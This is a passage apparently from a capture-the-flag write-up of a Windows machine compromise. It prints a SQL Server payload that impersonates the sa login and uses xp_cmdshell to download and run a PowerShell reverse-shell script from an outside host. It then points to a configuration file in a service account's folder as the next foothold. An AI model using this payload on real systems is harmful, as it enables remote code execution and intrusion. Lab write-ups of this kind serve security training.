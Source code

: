 We get an answer.  

Payload:  

```sql
EXECUTE AS LOGIN = 'sa';
EXEC xp_cmdshell "powershell -ep bypass iex(iwr http://10.10.16.5:8000/reverse.ps1 -usebasicp)";
```

<br/> 
<img src="/img/freelancer_screenshots/Pasted image 20241106215311.png" alt="1" style="width:700px; height:auto;">
<br/>

Found in the folder `C:\users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU` a file called `sql-Configuration.INI`.  

<br/> 